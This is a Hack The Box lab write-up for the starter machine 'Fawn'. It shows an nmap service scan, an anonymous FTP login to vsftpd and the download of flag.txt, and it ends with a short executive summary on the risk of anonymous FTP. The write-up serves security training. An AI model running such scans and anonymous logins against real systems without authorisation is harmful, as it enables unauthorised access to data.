 ```toc
```
# HTB Notes - Fawn #

+ **Date**: 11-30-2022
+ **Author**: Noah Soqui
+ **Tags**: #FTP, #Anonymous

## Intelligence Gathering ##

Scanning machine
+ `sudo nmap -sV -sC -O TARGET_IP`
+ Output:
``` Shell
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-30 17:06 CST
Nmap scan report for 10.129.171.236
Host is up (0.050s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.147
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/30%OT=21%CT=1%CU=32622%PV=Y%DS=2%DC=I%G=Y%TM=6387E2
OS:1A%P=aarch64-unknown-linux-gnu)SEQ(SP=FE%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SE
OS:Q(SP=FE%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11
OS:NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE8
OS:8%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54
OS:DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(
OS:R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F
OS:=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T
OS:=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RI
OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Unix

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.01 seconds
```

## Misconfiguration and Vulnerability Analysis  ##

Anonymous login is allowed, which will allow the attacker to use the username `anonymous`, and no password. Furthermore the nmap default scripts were able to enumerate a `flag.txt` which is the flag the attacker is looking for.

## Exploitation ##

Connecting via FTP
+ `ftp TARGET_IP `
+ Output:
``` SHELL                      
Connected to 10.129.171.236.
220 (vsFTPd 3.0.3)
Name (10.129.171.236:cysoq): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

## Post Exploitation ##

Download the flag
+ `get flag.txt`

## Reporting ##

### Executive Summary ###

A starter box, that shows the danger of FTP anon login. This allows the attacker to authenticate to the service as a guest without credentials. Allowing for the capture of the flag.txt.

